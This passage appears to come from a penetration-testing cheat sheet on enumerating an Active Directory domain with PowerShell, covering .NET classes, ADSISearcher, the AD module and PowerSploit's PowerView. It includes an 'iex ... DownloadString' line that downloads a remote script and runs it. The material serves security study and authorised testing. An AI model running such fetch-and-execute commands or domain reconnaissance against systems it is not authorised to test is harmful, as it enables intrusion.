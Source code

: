 ```
PS C:\> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\> $ADClass::GetCurrentDomain()
```

Get the name of the current forest
```
PS C:\> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
or
PS C:\> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest().name
```
#### Using LDAP queries through PowerShell and ADSI Searcher
- https://devblogs.microsoft.com/scripting/use-powershell-to-query-active-directory-from-the-console/
- https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher?view=dotnet-plat-ext-6.0

ADSISearcher is a type accelerator for the *System.DirectoryServices.DirectorySearcher* .NET class.  
--> A type accelerator is a simple alias to represent a .Net class.  
--> ADSISearcher It is used to search for one or more objects based on a filter.
```
PS C:\>  ([adsisearcher]'(&(objectCategory=user))').FindAll()
```

#### Active Directory Module in PowerShell
- Install it using RSAT *OR* import the module *Microsoft.ActiveDirectory.Management.dll"
- https://github.com/samratashok/ADModule

--> The DLL is usually found at this path: *C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management*

```
PS C:\> Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
OR
PS C:\> iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

#### PowerView
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
PS C:\> Get-NetDomain
```

## Domain enumeration - Users / Groups / Shares

Getting domain information PowerView
```
Get-NetDomain
```

Getting domain information Active Directory Module
```
Get-ADDomain
```

